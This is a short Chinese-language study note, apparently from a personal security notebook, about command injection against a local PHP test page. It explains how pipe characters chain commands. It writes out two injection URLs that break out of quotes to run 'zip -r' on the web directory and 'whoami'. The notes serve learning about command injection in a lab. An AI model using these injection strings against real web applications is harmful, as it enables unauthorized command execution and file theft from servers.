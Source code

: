 偶然发现这样会出现一个临时文件，刷新一下就看不见了，不知道什么原因，后面可以写个循环把他保存下来。  

![](assets/markdown-img-paste-20180416131857579.png)


`http://127.0.0.1:9999/test3.php?cmd=qqq%27|zip%20-r%20zip.zip%20./*|%27pwd`

![](assets/markdown-img-paste-20180416131533248.png)

可见符号`|`管道符号会执行所有命令，但是只会输出最后一个命令的输出  

`http://127.0.0.1:9999/test3.php?cmd=qqq%27||whoami||%27pwd`

![](assets/markdown-img-paste-20180416132217444.png)
